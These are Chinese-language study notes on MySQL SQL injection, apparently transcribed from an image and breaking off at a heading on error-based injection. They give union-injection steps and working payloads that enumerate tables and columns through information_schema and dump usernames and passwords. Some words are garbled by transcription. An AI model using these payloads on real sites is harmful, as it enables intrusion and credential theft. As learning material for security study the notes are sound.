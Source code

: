 - 输入?id=1'"       报错为near 1'"'')       说明闭合符为`')`

**不需要的语句可以用`--+` `#` `%23`注释掉**

## union联合注入

### 注入基本步骤

1.查找诸如点

2.判断是字符型注入还是数字型注入     `?id=2-1`

3.如果是字符型,找到他的祝贺方式

4.判断查询列数,         group by            order by

5.查询回显位置(把原来的id设置为不存在的)

select * FROM users where id=0 union select 1,2,database();

### 拿到表名和列名

**查询表名:**

SELECT * from users where id=-1 union select GROUP_CONCAT(TABLE_NAME),2,3 from information_schema.tables where table_schema=database() ;

如果报错也可以试试:

SELECT * from users where id=-1 union select (select GROUP_CONCAT(TABLE_NAME) from information_schema.tables where table_schema=database()),2,3;

因为我在注释符被过滤时结尾使用单引号闭合,第一种方法就报错了

**查询列名:**

 SELECT * from users where id=-1 union select GROUP_CONCAT(COLUMN_name),2,3 from information_schema.columns where table_schema=database() and TABLE_NAME='users';

**查询账号密码:**

SELECT * from users where id=-1 union select GROUP_CONCAT(username,'~',password),2,3 from users;

#### 数据库

information_schema   #包含所有mysql数据库的简要信息

其中包含两个所诉数据表:

tables(表名集合表)和columns(列名集合表)



## 报错注入

### floor()报错注入

 涉及到的函数
